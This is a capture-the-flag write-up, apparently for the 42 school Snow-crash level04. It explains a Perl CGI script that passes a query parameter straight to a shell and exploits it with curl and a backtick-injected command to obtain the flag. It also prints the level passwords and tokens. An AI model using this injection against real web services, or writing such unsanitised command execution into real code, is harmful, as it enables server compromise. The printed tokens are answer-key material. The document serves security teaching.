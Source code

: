 ```yaml
---
title:  "Snow-crash Level04"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - CyberSecurity
  - Github
  - Git

toc: true
toc_sticky: true

date: 2024-2-13
last_modified_at: 2024-02-13
categories:
  - ecole42
---
```


#### 1. The password of `level04` is the token that got from `level03`.

```bash
qi0maab88jeaj46qoumi7maus
```
#### 2. So, try login to `level04` with the password we got from `level03` and try to put the command 'ls -la'. We can see the file 'level04'. 
```bash
level03@SnowCrash:~$ su level04
Password: qi0maab88jeaj46qoumi7maus
level04@SnowCrash:~$
```
#### 3. Let's go inside in level04. 
```bash
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
level04@SnowCrash:~$ ./level04.pl
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_TERMINAL_VERSION = "3.4.23",
	LC_CTYPE = "UTF-8",
	LC_TERMINAL = "iTerm2",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Content-type: text/html
```

We can see A file with `.pl` extension. 

So, what is a PL file? 

A file with .pl extension is a `Perl Script` file that is a scripting language. 

```bash
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

This is a simple `CGI(Common Gateway Interface) script` that takes a parameter "x" from the query string and prints the result of runnig the command specified by the parameter using the `echo` commmand.

<details>
<summary> Note: What is CGI?  </summary>
<br>
What is CGI? : CGI, or Common Gateway Interface, is a standard interface that enables communication between a web server and external programs or scripts. It allows for the creation of dynamic web pages, processing user input, and interaction with databases.
</details>

<br>
<details>
<summary> Note: What is query?  </summary>
<br>
In the context of the Perl CGI script provided, the "query" refers to the string of parameters and their values that are passed to the script through the URL when it is accessed.
<br><br>
This string typically follows a question mark (?) in the URL and consists of key-value pairs separated by ampersands (&).
<br><br>
For example, if you access the script via a URL like this:
<br><br>

http://example.com/cgi-bin/script.cgi?x=ls%20-l

<br><br>
In this URL, the query string is x=ls%20-l. Here, x is the parameter name, and ls%20-l is its value. The %20 is a URL-encoded representation of a space character.
<br><br>
So, in this example, the query is x=ls%20-l, where the parameter x is assigned the value ls -l. When the Perl CGI script is executed with this query, it retrieves the value of the x parameter (ls -l in this case) and executes it as a command.
</details>

<br>
<details>
<summary> Details for the perl script </summary>
<br>

1. `#!/usr/bin/perl`: This is a hashebang line specifying the path to the Perl interpreter to be used to execute this script.
<br><br>

2. `use CGI qw{param};`: This line imports the param function from the CGI module. The param function is used to retrieve the values of parameters from the query string.
<br><br>

3. `print "Content-type: text/html\n\n";`: This line sends an HTTP header indicating that the content is of type "text/html". The double newline (\n\n) separates the header from the body.
<br><br>

4. `sub x { ... }`: This defines a subroutine (function) named "x". It takes one parameter and assigns its value to the variable $y.
<br><br>

5. `$y = $_[0];`: This line assigns the value of the first (in this case, only) argument passed to the subroutine to the variable $y.
<br><br>

6. `print echo $y 2>&1;`: This line prints the result of the command specified in $y. Backticks (``) are used to execute the command, and `2>&1` redirects both standard output and standard error to the output. This is a common technique to capture both normal output and error messages.
<br><br>

7. `x(param("x"));`: This line calls the subroutine "x" using the value of the "x" parameter from the query string.
<br><br>

In summary, the script takes a parameter named "x" from the query string, uses it as a command, executes the command, and prints the result.
<br>
</details>
<br>

We can see another interesting thing in that perl script.
The script indicates that 

```bash
# localhost:4747
```

Maybe, there is something on the port 4747. 

#### 4. Let's check on the port 4747. 

`nc -zv` allows to check connection to 4747 without sending any data and verbose mode.

<details>
<summary> What is 'nc' command in Linux </summary>
<br>
1. nc : This is the command itself, which is short for "netcat." Netcat is a versatile networking utility for reading from and writing to network connections using TCP or UDP protocols.
<br>
2.  -z: This option tells nc to scan for open ports rather than initiating a data transfer. When used with the -v option, it prints verbose output, indicating whether the connection was successful or not.
<br>
3.  -v: This option stands for "verbose" and instructs nc to provide more detailed output, including the status of each connection attempt.
<br>
So, when you run nc -zv, you are instructing Netcat to attempt to connect to a specified host and port without sending any data (-z), while also providing verbose output (-v) to show the result of each connection attempt. This is commonly used for port scanning to check if a port on a remote system is open or closed.
<br>
</details>
<br>

```bash
level04@SnowCrash:~$ nc -zv localhost 4747
Connection to localhost 4747 port [tcp/*] succeeded!
```

#### 5. Now, combine numbers 3 and 4 and  let’s send data using the `x parameter` and `port 4747` with `curl` command.


```bash
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`whoami`'
flag04
```

We got the `Flag04` with the whoami parameter.

Maybe we can try again with x parameter with getflag. And here we go, we got the flag :)
```bash
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```


#### 6. We got a token for next level05

```
ne2searoevaevoem4ov4ar8ap
```
